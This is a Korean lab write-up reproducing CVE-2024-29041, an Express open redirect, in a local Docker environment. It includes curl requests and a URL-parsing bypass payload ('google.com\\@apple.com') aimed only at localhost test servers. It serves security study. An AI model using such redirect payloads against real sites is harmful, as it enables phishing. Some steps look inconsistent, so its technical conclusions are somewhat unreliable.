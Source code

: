 # CVE-2024-29041: Express Open Redirect Vulnerability (PoC)

## 환경 구성

- OS: Windows 11
- Docker Version: 27.4.0
- docker-compose Version: 2.31.0

---

## 실습 준비

1. [gunh0/kr-vulhub](https://github.com/gunh0/kr-vulhub) 레포지토리 Fork 및 클론
```bash
git clone https://github.com/UserJ32/kr-vulhub.git
```
2. 취약점 폴더로 이동
```bash
cd kr-vulhub/express/CVE-2024-29041
```
3. `docker-compose up -d` 명령어로 컨테이너 실행
```bash
docker-compose up -d
```
   - 8002 포트: 취약 서버
   - 8003 포트: 정상 서버

---

## 실습
## PART1. 기본 PoC (단순 리다이렉트 테스트)

1. 취약 서버(8002) 테스트
```bash
curl -i "http://localhost:8002/redirect?url=https://example.com"
```
- 결과 : 500 Internal Server Error (검증 부재로 인한 서버 오류)
![500 Internal Server Error](image-4.png)

2. 정상 서버(8003) 테스트
```bash
curl -i "http://localhost:8003/redirect?url=https://example.com"
```
- 결과 : 정상 처리 (에러 없음)
![normal](image-5.png)

3. 브라우저 테스트
- 취약 서버(8002) 접속 결과
![Error Browser](image-6.png)

- 정상 서버(8003) 접속 결과
![Normal Browser](image-7.png)

## 상세 설명
본 실습은 gunh0/kr-vulhub에서 제공하는 CVE-2024-29041 환경을 기반으로 하여, 기본적인 오픈 리다이렉트 취약성 검증을 목적으로 진행되었습니다. 취약 서버(8002)는 `/redirect?url=` 파라미터로 전달된 URL을 별다른 검증 없이 Location 헤더에 삽입하려 했습니다.  
이로 인해 서버 오류(500 Internal Server Error)가 발생하였으며,  
이는 입력값을 검증하지 않고 처리하려는 취약한 동작을 나타냅니다. 정상 서버(8003)는 적절한 검증을 수행하여 안전하게 처리되었습니다.

---

## Part 2. 고급 PoC (URL 파싱 트릭을 이용한 리다이렉션 시도)
1. 취약 서버(8002) 테스트
```bash
curl -i -X GET "http://localhost:8002?q=http://google.com%5C%5C@apple.com"
```
- 결과 : 500 Internal Server Error (검증 부재로 인한 서버 오류)
![8002](image-9.png)

2. 정상 서버(8003) 테스트
```bash
curl -i -X GET "http://localhost:8003?q=http://google.com%5C%5C@apple.com"
```
= 결과 : 정상 처리 (에러 없음)
![8003](image-8.png)

3. 브라우저 테스트
- 취약 서버(8002) 접속 결과
![8002 Browser2](image-10.png)

- 정상 서버(8003) 접속 결과
![8003 Browser2](image-11.png)

---

## 상세 설명
추가적으로, 특수한 URL 파라미터(`\\@`)를 삽입하여 리다이렉션 우회 가능성을 검증했습니다. 취약 서버(8002)는 입력된 URL `http://google.com\\@apple.com`을 검증 없이 Location 헤더에 반영하였고,  
브라우저나 URL 파서에 따라 `google.com`은 인증정보로 처리되어 무시되고, 최종적으로 `apple.com`으로 리다이렉션되는 보안 문제가 발생할 수 있음을 확인했습니다. 정상 서버(8003)는 이러한 특수한 입력에 대해서도 적절히 대응하여 리다이렉션 취약점이 발생하지 않았습니다. 본 고급 PoC를 통해, Express 서버에서 입력값 검증 미흡으로 인한  
오픈 리다이렉트 취약점이 더욱 심각하게 악용될 수 있음을 검증했습니다.

---

## 최종 정리
- 기본 PoC를 통해 단순 입력 검증 부재를 확인했다.
- 고급 PoC를 통해 입력된 URL 파싱 트릭을 통한 인증 우회 및 리다이렉션 가능성을 검증했다.
- CVE-2024-29041 취약점은 Express 서버가 입력값을 제대로 검증하지 않고 Location 헤더에 반영하는 과정에서 발생하는 오픈 리다이렉트 취약점이다.

---

## Github 작업 이력

본 실습은 공개된 취약점 재현 레포지토리(gunh0/kr-vulhub)를 Fork하여, 취약한 Express 서버 환경(CVE-2024-29041)을 로컬에서 Docker로 직접 구성하고 테스트하는 방식으로 진행되었습니다.

- 원본 레포지토리: [https://github.com/gunh0/kr-vulhub](https://github.com/gunh0/kr-vulhub)
- Fork한 레포지토리: [https://github.com/UserJ32/kr-vulhub](https://github.com/UserJ32/kr-vulhub)

(※ 이후 Pull Request를 생성하였습니다.)
